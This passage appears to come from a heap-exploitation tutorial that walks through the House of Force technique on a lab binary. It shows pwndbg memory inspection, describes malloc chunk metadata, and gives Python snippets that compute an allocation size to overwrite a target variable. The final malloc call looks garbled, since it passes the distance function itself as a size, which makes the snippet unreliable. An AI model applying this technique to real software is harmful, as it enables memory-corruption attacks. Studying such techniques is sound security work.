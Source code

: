 The `target` variable is stored in `.data` section.

```bash
$ gdb ./house_of_force
pwndbg> r

# Ctrl + C

pwndbg> dq &target
0000000000602010     0058585858585858 0000000000000000
0000000000602020     0000000000000000 0000000000000000
0000000000602030     0000000000000000 0000000000000000
0000000000602040     0000000000000000 0000000000000000

pwndbg> xinfo &target
#...

 Containing ELF sections:
               .data 0x602010 = 0x602000 + 0x10
```

**Memory map of a process**

![memory map](https://www.researchgate.net/profile/Md-Monjurul-Karim/publication/286921747/figure/fig7/AS:668583600349189@1536414160236/UNIX-Process-Memory-Layout.ppm)

*Source* [researchgate](https://www.researchgate.net/figure/UNIX-Process-Memory-Layout_fig7_286921747)

When using `malloc()` for memory allocation, the system typically allocates more memory than the requested size. The returned user pointer points to a memory block that includes:
- Metadata Region: The first 16 bytes are reserved for internal bookkeeping information.
- User Accessible Memory: The remaining bytes are available for the user's data.

**Memory Layout**
Metadata (16 bytes): Contains information about:
- Block size
- Allocation flags
- Memory management details

User Pointer: Points to the memory address immediately after the metadata, providing the actual usable memory space

Let's define a `distance()` function who calculates the distance between the `target` and `heap_addr`

```python
# distance()
def distance(startAddr, endAddr):
    return (0xffffffffffffffff-startAddr) + endAddr

```

We need to calculate the allocation size that will position the next allocation at our target address. 

```python
malloc(str(distance).encode(), b'B'*((target - 0x20) - (heap_address + 0x20)))
```
